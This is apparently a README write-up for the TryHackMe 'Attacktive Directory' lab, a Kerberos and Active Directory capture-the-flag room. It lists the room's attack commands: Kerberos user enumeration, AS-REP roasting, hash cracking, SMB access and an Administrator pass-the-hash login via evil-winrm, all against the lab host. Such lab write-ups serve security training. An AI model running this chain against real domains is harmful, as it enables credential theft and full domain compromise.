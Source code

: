 <div align="center">
                  
# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
![image](https://user-images.githubusercontent.com/51442719/177435882-34e6b079-d835-4ae0-9e97-6b39078e0c16.png)

</div>

- [ ] Task 1  [`Intro` Deploy The Machine]()
- [ ] Task 2  [`Intro` Setup]()
- [ ] Task 3  [`Enumeration` Welcome to Attacktive Directory]()
- [ ] Task 4  [`Enumeration` Enumerating Users via Kerberos]()
- [ ] Task 5  [`Exploitation` Abusing Kerberos]()
- [ ] Task 6  [`Enumeration` Back to the Basics]()
- [ ] Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()
- [ ] Task 8  [`Flag Submission` Flag Submission Panel]()

---


---

- ## Task 1  [`Intro` Deploy The Machine]()

---

- ## Task 2  [`Intro` Setup]()

---

- ## Task 3  [`Enumeration` Welcome to Attacktive Directory]()

---

- ## Task 4  [`Enumeration` Enumerating Users via Kerberos]()

---

- ## Task 5  [`Exploitation` Abusing Kerberos]()

---

- ## Task 6  [`Enumeration` Back to the Basics]()

---

- ## Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()

---

- ## Task 8  [`Flag Submission` Flag Submission Panel]()

---

# Commands Used:

## Enumeration
```bash
nmap -p- -A -nP $IP
```

## DNS domain name and add it to `/etc/hosts`
```bash
echo $IP spookysec.local >> /etc/hosts
```

```bash
enum4linux -a spookysec.local
```

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```

```bash
find / -type f -name 'GetNPUsers.py'
```

```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
```

```bash
john kerbhash --wordlist=/passwords.txt
```

```bash
smbmap -H spookysec.local -d spookysec.local -u svc-admin -p m********t2005
```

```bash
git clone https://github.com/Hackplayers/evil-winrm.git
```

```bash
cd evil-winrm 
gem install evil-winrm
```

```bash
evil-winrm -i $IP -u Administrator -H e48xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

---

https://fr33s0ul.tech/attacktive-directory-thm-write-up/
